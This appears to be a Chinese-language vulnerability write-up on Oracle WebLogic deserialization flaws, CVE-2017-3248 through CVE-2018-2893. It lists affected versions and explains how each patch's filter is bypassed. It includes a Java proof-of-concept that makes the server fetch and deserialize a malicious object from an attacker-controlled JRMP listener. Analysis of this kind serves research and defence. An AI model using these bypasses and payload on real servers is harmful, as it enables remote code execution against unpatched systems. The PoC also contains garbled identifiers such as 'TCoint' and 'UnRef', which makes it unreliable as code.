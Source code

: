 在 CVE-2017-10271 使用 void 代替 object 标签绕过过滤


## CVE-2017-3248 {#cve-2017-3248}


### 影响范围 {#影响范围}

Oracle WebLogic Server 10.3.6.0
Oracle WebLogic Server 12.1.3.0
Oracle WebLogic Server 12.2.1.0
Oracle WebLogic Server 12.2.1.1


### 漏洞原理 {#漏洞原理}

需要一个恶意 JRMP 服务端，通过 T3 协议让 WebLogic 向我们控制的 JRMPListener
发送请求，然后反序列化我们返回的恶意对象。

{{< figure src="/ox-hugo/2021-08-31_15-55-58_screenshot.png" >}}

攻击者序列化一个 Registry 的动态代理对象，它的 handler 是
RebjectInvocationHandler 并在反序列化时(RemoteObject#readObject)通过 UncastRef 访
问远程恶意服务器来获取 RMI 注册中心。

POC：

```java
  ObjID id = new ObjID(new Random().nextInt()); // RMI registry
  TCoint te = new TCPEndpoint(host, port);
  UnRef ref = new UnicastRef(new LiveRef(id, te, false));
  RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
  Registry proxy = (Registry) Proxy.newProxyInstance(
      BypassPayloadSelector.class.getClassLoader(),
      new Class[]{Registry.class},
      obj);
  return proxy;
```

因为是动态代理类，反序列化时调用的是 ObjectInputStream#readProxyDesc 而不是之前
的 ObjectInputStream#readNonProxyDesc，不会被过滤


## CVE-2018-2628 {#cve-2018-2628}

针对 CVE-2017-3248 添加了个 InboundMsgAbbrev#resolveProxyClass 方法，过滤了
Registry

绕过方法是不使用 Registry 而使用其他 RMI 接口，比如使用 Activator：[CVE-2018-2628
简单复现与分析](http://xxlegend.com/2018/06/20/CVE-2018-2628%20%E7%AE%80%E5%8D%95%E5%A4%8D%E7%8E%B0%E5%92%8C%E5%88%86%E6%9E%90/)


## CVE-2018-2893 {#cve-2018-2893}

在反序列化利用链的时候过滤了 UnicastRef 和 CommonsCollection，因为 UnicastRef 不
是在利行的过程反序列化的，所以 2018-2628 的 payload 还能用，不过恶意
JRMPListener 要用 jdk7u21 利用链
